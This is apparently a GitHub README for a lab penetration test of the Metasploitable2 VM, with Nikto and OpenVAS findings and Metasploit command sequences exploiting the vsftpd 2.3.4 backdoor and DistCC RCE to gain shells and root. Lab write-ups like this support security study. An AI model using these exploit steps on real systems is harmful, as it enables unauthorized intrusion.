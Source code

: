 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## 📊 Vulnerabilities Discovered

### 🔍 **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### 🔍 **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## 💻 Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access


